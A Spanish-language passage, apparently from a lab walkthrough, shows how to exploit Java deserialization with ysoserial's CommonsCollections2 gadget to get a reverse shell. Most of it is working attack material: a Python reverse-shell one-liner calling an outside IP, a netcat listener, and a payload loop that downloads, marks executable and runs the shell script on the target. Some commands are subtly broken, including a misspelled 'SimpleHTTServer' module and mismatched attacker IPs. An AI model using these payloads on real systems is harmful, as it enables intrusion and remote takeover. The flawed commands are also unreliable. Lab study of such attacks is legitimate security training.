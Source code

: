 ```
  time.sleep(2)
```

Paso 6: Ejecute el código del exploit mediante el siguiente comando.

Mandar:

```
python exploit.py
```

¡El resultado es la ejecución del código!

Después de un breve rato, mientras vemos diferentes respuestas para cada carga útil, podemos ver que cuando se usa CommonsCollections2, comienzan a aparecer pings.

Tarea 4. Obtener un caparazón inverso

Para establecer un shell inverso necesitaremos emitir un comando o una serie de comandos. Tenga en cuenta que en la deserialización de Java, puede usar espacios en los comandos, pero no puede usar espacios en los argumentos de los comandos.

Paso 1: Cree un script de shell para obtener el shell inverso de la máquina de destino.

Guarde este código como rev.py en el directorio raíz.

Código:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.46.20.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Paso 2: A continuación, alojemos lo anterior utilizando el módulo SimpleHTTPServer de Python en el directorio donde rev está presente.

Mandar:

```
python -m SimpleHTTServer 8443
```

Paso 3: En otra ventana de terminal, inicia un oyente de Netcat.

Mandar:

```
nc -lvp 443
```

Paso 4: Finalmente, el exploit se cambia para generar las cargas útiles respectivas una tras otra.

* Descargar el shell inverso
* Hazlo ejecutable
* Iniciar el shell

```
payload = 'CommonsCollections2'
commands = [
'"curl http://192.91.247.2:8443/rev.py -O rev.py"',
'"chmod +x rev.py"',
'"./rev.py"'
]

for command in commands:
  os.system("java -jar /root/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar " + payload + " " + command + " > " + payload)
  x=threading.Thread(target=upload, args=(payload,))
  x.start()
  readfile(payload)
  time.sleep(2)
```
